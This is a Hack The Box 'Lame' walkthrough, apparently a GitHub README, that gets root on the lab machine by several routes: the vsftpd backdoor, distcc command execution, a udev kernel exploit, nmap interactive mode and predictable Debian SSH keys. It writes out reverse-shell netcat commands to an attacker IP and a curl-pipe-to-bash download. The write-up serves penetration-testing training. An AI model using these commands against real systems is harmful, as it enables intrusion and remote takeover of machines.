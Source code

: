 # HTB-lame
This will describe multiple ways to capture the root in the Hack the box lame machine, apart from the metasploit exploits this is a manual approach and more impactful at times as obviously manual attack are far more reliable than automated ones.

After purchase of VIP go to download VPN and then in kali
	1. Sudo openvpn --config filename.ovpn

Nmap -vvv -Pn -sCV --reason -T4 -p0-65535 -oN lame.nmap 10.10.10.3 
{Image attached}
TTL

	1. If 
		a. TTL 1-63  - LINUX machine
	2. If 
		a. TTL 64-128 - Windows Machine
	3. If 
		a. TTL >128 - Network device


vsftpd_234_backdoor.rb

Along with this 14. step create a listener 
nc -nvlp 443

	15. Python -c 'import pty; pty.spawn("/bin/bash")'  --- this help to import pty and pty helps to create/spawn a shell as we wrote /bin/bash
	16. Find / -iname user.txt --- / means the path and -iname means match the file name given in all the directory starting with /
	17. Find / -iname root.txt -exec wc {} \; --- execute word count on the file found with root.txt name
	18. Netstat -pantl | grep 6200 --- port 6200 is a tcp port used for vsftpd 2.3.4 backdoor 
	19. Try above command in all the users present and in the user you get "no info could be read"  Then that user session can help you get the backdoor
	20. Now in your terminal nc 10.10.10.3 21 USER bhavin:)
	PASS  bhavinand view with same netstat -pantl in user session you will see a listening port 6200 open
	21.  nc 127.0.0.1 6200 in user sesssion and you will see a backdoor createad
	22. And now spawn a shell with python ? How will you do it?
	23. Python -c "import pty; pty.spawn('/bin/bash')";
	24.  Check the log files for the blocked login in 6200 port
	25. Cat /var/log/messages | grep -i 6200
	26.  The system is using universal firewall as it block 6200 port

This is privilege escalation [Step 20]

Read nmap script and metasploit exploits related to the port of service you got open

Now done with port 21 and 139 
Go back to the recon tab and see what else you have I got the 3632 distcc 
	1. Search for a metasploit or nmap script for distcc and try executing it.
	2. Got nmap .nse script and now read the nse script nmap -p 3632 <ip> --script distcc-exec --script-args="distcc-exec.cmd='id'"The id is the arbitrary command execution in the machine
	3. Change Id with what you want
	4. So if I change id to nc -e /bin/bash 10.10.16.5 443 and simultaneously  open nc -nvlp 443 it will give the reverse shell 
	5. Check version of OS lsb_release -a
	6. Uname -a --- you get a 2.6.4 version
	7. Search for something related to it in searchsploit and nmap script
	8. Got 8572.c in searchsploit to mirror / copy in pwd searchsploit -m 8572.c
	9. Send this 8572 to victim by python -m server and wget http://ip:port/file.c 
	10. Use the gcc compiler to compile it
	11. And it is asking for udev PID ps -aux | grep udev
	12. and now it is asking for a run named payload Echo '#!/bin/bash' > runecho 'nc -e /bin/bash 10.10.16.5 1234'
	13. In your terminal nc -nvlp 1234
	14. Then run the ./a.out <PID>
	15. You can also try with PID-1 value

From ps -aux you got all the running services and service port 6667 is a unrealircd and you can 

Compare hash value to see if the file is corrupted or not
Md5sum filename --- at both places and it match > file ok
Sha1sum filename ---same
 

Linpeas.sh is
LinPEAS - Linux Privilege Escalation Awesome Script

To use this script sudo wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh   
Using the python server now send it to victim and if you directly run using the bash as it is a shell script 
Curl http://10.10.16.5:1234/linpeas.sh | bash

Now we see that nmap is running as root through linpeas
Go to gtfobin website to check for malicious ways to use any command and we will search for nmap as we get root permission in root

The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
nmap --interactive
nmap> !sh

This was a way to escalate privileges through nmap 

Open SSH

As we know we have openssh and we got authorized_key folder in the victim which is readable by all users so we can use predictable prng github to predict the public/ private key and try to ssh using it.
	1. Git clone https://github.com/g0tmi1k/debian-ssh.git
	2. In the folder created open it and goto common_keys and untar it using 
	3. sudo tar jxf debian_ssh_rsa_2048_x86.tar.bz2 
	4. You  got public and private key pair in the /rsa/2048 
	5. Now goto victim cat the key of authorized_key file
	6. Copy it and now sudo grep -lr <key you got>
	7. Now copy the public key and remove .pub and sudo ssh -i <public key> root@10.10.10.3
![image](https://github.com/bha-vin/HTB-lame/assets/103947819/d26ebea4-e7eb-464b-ad09-e963bee9b155)
